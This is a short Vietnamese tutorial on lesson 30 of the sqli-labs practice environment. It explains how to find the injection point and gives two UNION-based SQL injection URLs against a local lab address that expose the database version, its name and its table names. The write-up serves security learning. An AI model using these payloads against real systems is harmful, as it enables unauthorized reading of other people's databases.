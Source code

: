 # Những việc làm được với lesson-30
Việc check xem nó là dạng DB gì thì làm giống như những lesson trước. Ta sẽ sử dụng command `nmap`

Sau khi đăng nhập vào lesson-30

![](../images/lesson30/screen_6.png)

Ta thấy yêu cầu đề bài là nhập id vào. Sau khi nhập id vào thì ta thấy nó hiển thị ra user và password. Khi ta thay đổi id thì nó sẽ thay đổi user và password. Vậy thì câu truy vấn của bài này có cấu trúc ra sao ta sẽ đi tìm nó 

![](../images/lesson30/screen.png)


1. Cấu trúc của lệnh truy vấn 

```
192.168.80.225/sqli-labs/Less-30/?id=1"union select 1,version(),database() limit 1,1 --+
```

![](../images/lesson30/screen_1.png)

2. Tên các bảng trong DB `securiity`
```
192.168.80.225/sqli-labs/Less-30/?id=0" union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security' --+
```

![](../images/lesson30/screen_2.png)

Với cấu trúc truy vấn này thì dần dần ta có thể tìm được tất cả DB này như các bài trước 
